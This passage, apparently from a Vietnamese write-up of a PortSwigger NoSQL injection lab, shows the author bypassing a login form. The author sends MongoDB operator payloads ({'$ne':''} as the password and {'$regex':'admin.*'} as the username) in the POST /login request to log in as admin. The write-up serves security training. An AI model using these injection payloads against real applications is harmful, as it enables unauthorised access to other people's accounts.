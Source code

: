 Thông báo lỗi cho thấy truy vấn trả về một số lượng bản ghi không mong muốn, cho thấy có nhiều người dùng được chọn.

Tiếp theo, thử login với quyền `Admin`, thay password thành `{"$ne":""}` và username thành `{"$regex":"admin.*"}`:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/NoSQL-Injection/images/image24.png?raw=true)

Send request, quan sát response: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/NoSQL-Injection/images/image25.png?raw=true)

Login thành công dưới quyền `admin`. 

Trong tab Proxy, thay đổi payload trong POST /login request thành:

    {"username":{

    "$regex":"admin.*"

    },"password":{

    "$ne":""

    }}

Forward request và solved the lab!
